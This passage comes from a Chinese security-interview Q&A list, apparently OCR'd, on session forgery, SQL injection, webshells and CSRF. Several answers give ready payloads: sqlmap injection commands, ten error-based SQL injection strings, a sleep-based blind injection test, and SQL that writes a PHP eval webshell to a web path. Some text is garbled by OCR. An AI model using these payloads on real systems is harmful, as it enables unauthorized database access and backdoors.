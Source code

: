   2） Cookie 仿冒

     只要得到 Session 或 Cookie 即可伪造用户身份。
  验证码漏洞中存在

  1）验证码允许暴力破解

  2）验证码可以通过 Javascript 或者改包的方法来进行绕过

- 37、圈出下面会话中可能存在问题的项，并标注可能会存在的问题？

  `get /ecskins/demo.jsp?uid=2016031900&keyword=”hello world”
  HTTP/1.1Host:***.com:82User-Agent:Mozilla/
  5.0 Firefox/40Accept:text/css,/;q=0.1
  Accept-Language:zh-CN;zh;q=0.8;en-US;q=0.5,en;q=0.3
  Referer:http://*******.com/eciop/orderForCC/
  cgtListForCC.htm?zone=11370601&v=145902
  Cookie:myguid1234567890=1349db5fe50c372c3d995709f54c273d;
  uniqueserid=session_OGRMIFIYJHAH5_HZRQOZAMHJ;
  st_uid=N90PLYHLZGJXI-NX01VPUF46W;
  status=True
  Connection:keep-alive`

  - 38、给你一个网站你是如何来[渗透测试](https://link.zhihu.com/?target=https%3A//www.77169.com/dhxz)的?
    在获取书面授权的前提下。
  - 39、sqlmap，怎么对一个注入点注入？
    1）如果是get型号，直接，sqlmap -u "诸如点网址".
    2) 如果是post型诸如点，可以sqlmap -u "注入点网址” --data="post的参数"
    3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap -r "文件地址"

- 40、nmap，扫描的几种方式

  - 41、sql注入的几种类型？
    1）报错注入
    2）bool型注入
    3）延时注入
    4）宽字节注入
  - 42、报错注入的函数有哪些？ 10个
    1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】----------------
    2）通过floor报错 向下取整
    3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
    4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b));
    5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));
    6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));
    7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));
    8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));
    9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));
    10）.exp()select from test where id=1 and exp(~(select * from(select user())a));
  - 43、延时注入如何来判断？
    if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
  - 44、盲注和延时注入的共同点？
    都是一个字符一个字符的判断
  - 45、如何拿一个网站的webshell？
    上传，后台编辑模板，sql注入写文件，命令执行，代码执行，
    一些已经爆出的cms漏洞，比如dedecms后台可以直接建立脚本文件，wordpress上传插件包含脚本文件zip压缩包等
  - 46、sql注入写文件都有哪些函数？
    `select '一句话' into outfile '路径'`
    `select '一句话' into dumpfile '路径'`
    `select '<?php eval($_POST[1]) ?>' into dumpfile 'd:wwwrootbaidu.comnvhack.php'`;
  - 47、如何[防止](https://cnodejs.org/topic/5533dd6e9138f09b629674fd)CSRF?
    1,验证referer
    2，验证token